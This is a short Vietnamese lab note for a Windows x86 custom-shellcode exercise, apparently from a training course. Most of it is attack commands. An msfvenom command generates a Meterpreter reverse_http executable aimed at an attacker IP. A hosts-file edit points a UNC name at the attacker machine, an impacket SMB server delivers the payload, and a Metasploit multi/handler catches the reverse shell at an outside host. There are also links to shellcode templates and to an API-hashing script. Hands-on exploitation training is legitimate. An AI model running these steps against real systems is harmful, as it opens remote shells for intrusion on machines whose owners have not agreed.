 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.  
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit trên máy tấn công:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe
```

Thay đổi file hosts trên máy Windows để tạo kết nối UNC sang máy tấn công.  
Dùng notepad để thêm 1 dòng trong file hosts.
```
# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
  <Địa chỉ IP>    kali
```

Để tạo SMB server trên máy tấn công ([Nếu không có lệnh smbserver.py]())
```
sudo smbserver.py met /home/kali/ -smb2support
```

Khi đã chạy smb server thành công thì có thể kiểm tra bằng lệnh sau trên máy Windows:
```
pushd <Đường dẫn UNC>
# VD: pushd \\ubuntu\folder
# Khi đó trong terminal sẽ hiện lên folder của bên máy đang chạy SMB 

# Thoát đường dẫn
popd <Đường dẫn UNC>
```

Để tạo listener trên máy tấn công khi thực thi shellcode:
```
# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
